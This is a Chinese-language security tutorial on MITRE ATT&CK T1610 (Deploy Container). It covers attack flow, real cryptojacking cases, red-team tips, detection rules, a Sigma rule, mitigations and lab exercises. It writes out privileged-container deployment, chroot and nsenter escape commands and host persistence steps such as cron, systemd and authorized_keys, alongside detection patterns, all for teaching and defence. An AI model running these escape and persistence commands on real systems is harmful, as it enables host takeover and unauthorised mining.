


# 部署容器 (T1610)

## 一句话通俗理解

> **攻击者用Docker/Kubernetes部署一个恶意容器，让恶意代码在隔离环境中运行，绕过主机安全检测**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用容器运行时（Docker/containerd）部署恶意容器，在隔离环境中执行代码 |
| 为什么危险？ | 容器隔离使主机安全工具难以检测，特权容器可直接访问主机资源，容器镜像可携带恶意代码 |
| 谁需要关心？ | 容器运维团队、安全运维团队、DevOps工程师 |
| 你的第一步防御 | 监控docker run/kubectl create命令，限制特权容器部署，启用镜像扫描 |
| 如果只做一件事 | 限制Docker daemon和Kubernetes API的访问权限，确保仅授权用户可部署容器 |

## 难度等级

⭐⭐ 中级：需要了解容器技术（Docker/Kubernetes）、容器运行时配置、容器网络模型。前置知识：Linux基础、Docker命令、Kubernetes概念

## 前置知识检查

**读这个文件需要什么？**

- [ ] 容器技术基础概念（镜像、容器、仓库）
- [ ] Docker命令行基本使用（docker run/build/pull）
- [ ] Kubernetes基本概念（Pod、Deployment、Service）
- [ ] Linux命名空间和cgroups概念

## 技术描述

**部署容器**（T1610）是MITRE ATT&CK框架中**执行**战术下的一种技术，攻击者通过容器运行时（Docker、containerd、CRI-O）或容器编排平台（Kubernetes）部署恶意容器，在隔离的容器环境中执行恶意代码。

> 📡 **打个比方**：想象你的服务器是一栋办公楼，容器是楼里的独立办公室。正常情况下，每间办公室（容器）里住的是公司批准的员工（合法应用）。攻击者偷偷开了一间新办公室（部署容器），在里面干坏事——但因为办公室有独立的门锁和墙壁（命名空间隔离），大楼保安（主机安全工具）看不到里面在干什么。

### 具体怎么理解？

容器技术核心组件：

- **Docker**：最流行的容器运行时，通过`docker run`命令部署容器
- **containerd**：底层容器运行时，Docker和Kubernetes的底层引擎
- **Kubernetes**：容器编排平台，通过`kubectl create`部署Pod
- **Podman**：无daemon容器运行时，RedHat系Linux默认

攻击者部署容器的几种方式：
1. **直接部署恶意镜像**：`docker run -d malicious-image`部署从公网拉取的恶意镜像
2. **构建恶意镜像**：在受害主机上构建包含恶意代码的Docker镜像
3. **特权容器**：`docker run --privileged`部署特权容器，可访问主机所有设备
4. **挂载主机目录**：`docker run -v /:/host`挂载主机根目录，通过容器逃逸到主机

**过渡段：** 理解了容器部署的基本概念后，我们来看攻击者为什么喜欢用容器——因为它提供了天然的隔离和逃避检测的能力。

### 为什么有效？

这种技术之所以有效，是因为：
1. **隔离逃避**：容器内的进程在独立命名空间中运行，主机的EDR/杀毒软件可能无法监控容器内部
2. **镜像携带恶意代码**：攻击者可将恶意代码打包到镜像中，镜像看起来像正常应用
3. **特权容器逃逸**：特权容器可直接访问主机内核和设备，可逃逸到主机
4. **网络混淆**：容器的网络流量通过docker0网桥转发，IP属于容器网段，难以溯源

## 真实攻击流程



**步骤详解：**

1. **获取容器运行时访问** - 攻击者通过暴露的Docker API（2375端口）、Kubernetes API、或窃取kubeconfig凭证获取容器部署权限
2. **拉取/构建镜像** - 从Docker Hub拉取恶意镜像，或在受害主机上构建包含恶意代码的镜像
3. **部署容器** - 使用`docker run`部署容器，通常加上`--privileged`（特权模式）和`-v /:/host`（挂载主机根目录）
4. **执行恶意代码** - 容器内运行挖矿程序、C2 beacon、或内网扫描工具
5. **容器逃逸（可选）** - 如果是特权容器，通过`chroot /host`或挂载主机磁盘逃逸到主机

## 攻击流程

### 典型攻击流程

```
获取容器运行时访问 --> 拉取或构建恶意镜像 --> 部署特权容器 --> 容器内运行恶意载荷 --> chroot 逃逸到主机 --> 持久化控制
```



**步骤详解：**

1. **获取容器运行时访问**
   - 通俗描述：攻击者通过暴露的 Docker daemon 端口（2375）、K8s API Server 或窃取的云凭证获得容器运行时的访问权限
   - 技术细节：Docker daemon 2375 端口无认证无 TLS 时可直接远程管理；K8s API Server 端口 6443 暴露且匿名访问开启时可调用 API；云凭证（AWS Access Key）可用来操作 EKS/ECS
   - 常用工具：curl（调用 Docker API）、kubectl、aws CLI、CDK

2. **拉取或构建恶意镜像**
   - 通俗描述：从公共镜像仓库拉取攻击者预先上传的恶意镜像，或在目标上构建包含恶意载荷的自定义镜像
   - 技术细节：`docker pull evilrepo/miner:latest`；通过 Dockerfile 构建包含挖矿程序、C2 agent 或扫描工具的镜像；镜像可伪装成合法应用（如 nginx、redis）以避免怀疑
   - 常用工具：docker pull、docker build、Docker Hub、私有镜像仓库

3. **部署特权容器**
   - 通俗描述：使用 `--privileged` 标志和主机文件系统挂载部署容器，使其获得对主机所有设备的访问权限
   - 技术细节：`docker run -d --privileged -v /:/host --net=host evilrepo/payload`；`--privileged` 赋予容器所有 capabilities 并访问 `/dev` 设备；`-v /:/host` 挂载主机根文件系统；K8s 中通过 `privileged: true` 的 SecurityContext 实现
   - 常用工具：docker run、kubectl apply、CDK

4. **容器内运行恶意载荷**
   - 通俗描述：在特权容器内运行挖矿程序、C2 beacon 或内网扫描工具，利用容器的网络和权限优势
   - 技术细节：运行 XMRig 挖矿程序连接矿池；运行 Cobalt Strike beacon 反向连接 C2；运行 nmap/masscan 扫描内网；载荷在容器内运行，主机进程列表中不可见
   - 常用工具：XMRig、Cobalt Strike、nmap、masscan、Sliver

5. **chroot 逃逸到主机**
   - 通俗描述：利用特权容器挂载的主机文件系统，通过 chroot 切换根目录到主机文件系统，逃逸容器隔离
   - 技术细节：`chroot /host /bin/bash` 切换到主机根文件系统；或通过 `nsenter --target 1 --mount --uts --ipc --net --pid` 进入 PID 1 的所有命名空间；特权容器可直接访问 `/dev/sda1` 等块设备
   - 常用工具：chroot、nsenter、CDK escape、cdkrun

6. **持久化控制主机**
   - 通俗描述：在主机上部署后门（如 cron 任务、systemd 服务、SSH 公钥），实现持久化控制
   - 技术细节：写入 `/host/etc/cron.d/persist`；创建 `/host/etc/systemd/system/evil.service`；追加 SSH 公钥到 `/host/root/.ssh/authorized_keys`；部署 rootkit 隐藏进程和文件
   - 常用工具：cron、systemd、ssh-keygen、Reptile rootkit

## 真实案例

### 案例1：TeamTNT通过Docker API部署挖矿容器（2020-2023年）

- **时间**：2020年-2023年
- **目标**：暴露Docker API（2375端口）的服务器
- **攻击组织**：TeamTNT（加密劫持团伙）
- **手法**：扫描互联网上暴露的Docker API端口，直接通过API部署挖矿容器。命令示例：`docker -H tcp://target:2375 run -d --privileged xmr-image`。容器内运行XMRig挖矿程序挖门罗币
- **影响**：数千台服务器被感染，挖矿造成CPU满载和电费激增
- **参考链接**：[Aqua Security TeamTNT分析](https://blog.aquasec.com/teamtnt-cryptojacking-watchdog-aws)

### 案例2：Kinsing通过容器逃逸攻击主机（2021-2023年）

- **时间**：2021年-2023年
- **目标**：运行Docker的Linux服务器
- **攻击组织**：Kinsing（加密劫持+后门团伙）
- **手法**：利用暴露的Docker API部署特权容器，挂载主机根目录后通过`chroot`逃逸到主机。逃逸后在主机上安装Kinsing后门和XMRig挖矿程序
- **影响**：多个组织的容器主机被完全控制
- **参考链接**：[Trend Micro Kinsing分析](https://www.trendmicro.com/en_us/research/23/a/kinsing-actors-exploit-misconfigured-docker-api.html)

### 案例3：Hildegard Kubernetes攻击（2020-2021年）

- **时间**：2020年-2021年
- **目标**：暴露Kubernetes kubelet API（10250端口）的集群
- **攻击组织**：Hildegard（疑似TeamTNT变种）
- **手法**：利用kubelet API未授权访问漏洞，通过`kubectl exec`在现有Pod中执行命令，然后部署恶意Pod运行XMRig挖矿。还部署了DaemonSet确保恶意Pod在所有节点上运行
- **影响**：多个Kubernetes集群被感染
- **参考链接**：[CrowdStrike Hildegard分析](https://www.crowdstrike.com/blog/cr8:3-root-shell-via-kubernetes/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **特权容器逃逸**：部署特权容器`docker run --privileged -v /:/host alpine chroot /host`，直接获取主机root shell
2. **容器作为C2中继**：部署容器运行reverse shell，由于容器IP属于docker0网段，主机的网络监控可能不覆盖
3. **DaemonSet持久化**：在Kubernetes中部署DaemonSet，确保恶意容器在所有节点上运行，即使被清理也会自动重建
4. **镜像层隐藏**：将恶意代码放在Docker镜像的中间层，即使删除最终层也能通过镜像历史恢复

### 常用工具

| 工具名称 | 用途 | 平台 | 说明 |
| -------- | ---- | ---- | ---- |
| docker | 容器运行时 | Linux/Windows | 最流行的容器引擎 |
| kubectl | K8s管理 | 跨平台 | Kubernetes命令行管理工具 |
| podman | 无daemon容器 | Linux | RedHat系容器运行时 |
| XMRig | 加密货币挖矿 | 跨平台 | 开源门罗币挖矿程序 |

### 注意事项

- 部署容器需要docker组权限或root权限
- 特权容器逃逸需要主机内核支持cgroup和命名空间
- Kubernetes部署需要有效的kubeconfig或API凭证

## 蓝队视角

### 检测要点

1. **容器创建监控**：监控`docker run`、`kubectl create`、`kubectl apply`等命令执行
2. **特权容器检测**：检测`--privileged`参数的容器部署
3. **异常镜像拉取**：监控从非企业镜像仓库拉取镜像的行为

### 监控建议

- 在Docker daemon配置审计规则：`auditctl -w /usr/bin/docker -p x -k docker_execution`
- 监控Kubernetes API Server审计日志，检测Pod/DaemonSet创建
- 使用Falco或Tracee监控容器运行时行为，检测容器逃逸
- 启用镜像扫描（Trivy/Clair），阻止恶意镜像部署
- 限制Docker API端口（2375/2376）仅限本地访问

## 避坑指南

防御者最痛苦的教训：**Docker API端口2375暴露在公网**。攻击者只需扫描到开放2375端口的服务器，就能直接通过API部署任意容器，完全不需要SSH凭证。务必确保Docker API不暴露在公网，仅通过Unix Socket本地访问。

## 检测建议

### 网络层检测

**方法**：监控Docker API和Kubernetes API的访问

```bash
# 检测对Docker API（2375/2376端口）的外部访问
# 在防火墙日志中查找
grep -E "dst_port.*(2375|2376)" /var/log/firewall.log | grep -v "127.0.0.1"

# 检测Kubernetes kubelet API（10250端口）未授权访问
grep "10250" /var/log/kubernetes/audit.log
```

### 主机层检测

**方法**：监控docker/kubectl命令执行

```bash
# 审计docker命令执行
auditctl -w /usr/bin/docker -p x -k docker_cmd
auditctl -w /usr/bin/kubectl -p x -k kubectl_cmd
ausearch -k docker_cmd
ausearch -k kubectl_cmd

# 检测特权容器创建
journalctl -u docker | grep "privileged"
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[*].securityContext.privileged}{"\n"}'
```

### 应用层检测

**用人话说：** 这条规则在检测可疑的容器部署——正常情况下容器部署是通过CI/CD管道完成的，如果有人直接在命令行执行`docker run --privileged`，特别是挂载了主机根目录`-v /:/host`，几乎可以确定是在尝试容器逃逸。2020年TeamTNT就是通过扫描互联网上暴露的Docker API端口，直接部署挖矿容器。检测的关键信号是：特权容器创建、主机目录挂载、非企业镜像仓库的镜像拉取、以及Docker API的外部访问。

**Sigma规则示例（特权容器部署检测）：**

```yaml
title: 检测特权容器部署（可能为容器逃逸攻击）
status: experimental
description: 检测使用--privileged参数部署容器，可能为攻击者尝试容器逃逸
logsource:
    category: process_creation
    product: linux
detection:
    selection_docker:
        Image|endswith: '/docker'
        CommandLine|contains:
            - 'run'
            - '--privileged'
    selection_kubectl:
        Image|endswith: '/kubectl'
        CommandLine|contains:
            - 'privileged'
            - 'true'
    selection_mount:
        CommandLine|contains:
            - '-v /:/host'
            - '-v /:/mnt/host'
            - '--mount type=bind,source=/,target'
    condition: selection_docker or selection_kubectl or (selection_docker and selection_mount)
fields:
    - Image
    - CommandLine
    - User
    - ParentImage
falsepositives:
    - 特殊应用需要特权容器的合法场景（需白名单审批）
level: high
tags:
    - attack.execution
    - attack.t1610
    - attack.privilege_escalation
```

## 缓解措施

### 优先级1：关键措施

**限制Docker API访问**：确保Docker API不暴露在公网，仅通过Unix Socket本地访问

```bash
# Docker daemon配置：禁用TCP API，仅使用Unix Socket
# /etc/docker/daemon.json
{
  "hosts": ["unix:///var/run/docker.sock"]
}

# 防火墙规则：阻止外部访问2375/2376端口
iptables -A INPUT -p tcp --dport 2375 -j DROP
iptables -A INPUT -p tcp --dport 2376 -j DROP
```

### 优先级2：重要措施

**禁用特权容器**：通过Kubernetes Pod Security Policy禁止特权容器

```yaml
# Kubernetes Pod Security Standards: restricted
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
```

### 优先级3：建议措施

**启用镜像扫描**：部署Trivy或Clair对镜像进行安全扫描

```bash
# 使用Trivy扫描镜像漏洞
trivy image nginx:latest
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解容器部署（初级）

**目标**：掌握Docker基本操作

**步骤**：
1. 拉取alpine镜像：`docker pull alpine`
2. 运行容器：`docker run -it alpine sh`
3. 在容器内执行命令：`hostname`、`ip addr`

**预期输出**：容器内hostname是一串随机ID，IP属于docker0网段

**学习要点**：理解容器隔离环境

### 实验2：特权容器逃逸实验（中级）

**目标**：理解特权容器逃逸原理

**步骤**：
1. 部署特权容器：`docker run -it --privileged -v /:/host alpine sh`
2. 在容器内执行：`chroot /host`
3. 验证是否获得了主机shell：`hostname`（应显示主机名）

**预期输出**：成功chroot到主机文件系统，获得主机root权限

**学习要点**：理解特权容器的危险性

### 实验3：防御验证（高级）

**目标**：部署容器运行时安全监控

**步骤**：
1. 安装Falco：`apt install falco`
2. 执行实验2中的特权容器逃逸
3. 检查Falco告警：`journalctl -u falco`

**预期输出**：Falco触发"特权容器创建"告警

**学习要点**：掌握容器运行时安全监控

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **容器** | Container，隔离的运行环境，就像服务器里的"独立小房间" |
| **Docker** | 最流行的容器引擎，用于创建和管理容器 |
| **Kubernetes** | 容器编排平台，管理大规模容器集群 |
| **特权容器** | Privileged Container，拥有主机所有权限的容器，可访问所有设备 |
| **容器逃逸** | Container Escape，从容器内部逃逸到主机系统 |
| **命名空间** | Namespace，Linux内核提供的隔离机制，让容器有独立的进程/网络/文件系统 |
| **DaemonSet** | Kubernetes资源类型，确保Pod在所有节点上运行 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Deploy Container (T1610)](https://attack.mitre.org/techniques/T1610/)
- [Docker文档](https://docs.docker.com/) - Docker官方文档
- [Kubernetes文档](https://kubernetes.io/docs/) - Kubernetes官方文档
- [Docker安全最佳实践](https://docs.docker.com/engine/security/) - Docker安全指南

### 📰 安全报告（真实攻击）

- [Aqua Security - TeamTNT分析](https://blog.aquasec.com/teamtnt-cryptojacking-watchdog-aws) - 2020-2023年Docker API挖矿攻击
- [Trend Micro - Kinsing容器逃逸](https://www.trendmicro.com/en_us/research/23/a/kinsing-actors-exploit-misconfigured-docker-api.html) - 2021-2023年特权容器逃逸
- [CrowdStrike - Hildegard K8s攻击](https://www.crowdstrike.com/blog/cr8:3-root-shell-via-kubernetes/) - 2020-2021年Kubernetes攻击

### 🔧 工具与资源（动手试试）

- [Falco](https://falco.org/) - CNCF容器运行时安全监控
- [Trivy](https://github.com/aquasecurity/trivy) - 容器镜像漏洞扫描
- [Tracee](https://github.com/aquasecurity/tracee) - eBPF运行时安全监控

### 📚 学习资料（深入了解）

- [容器安全指南](https://kubernetes.io/docs/concepts/security/) - Kubernetes安全文档
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/containers/) - 容器ATT&CK矩阵
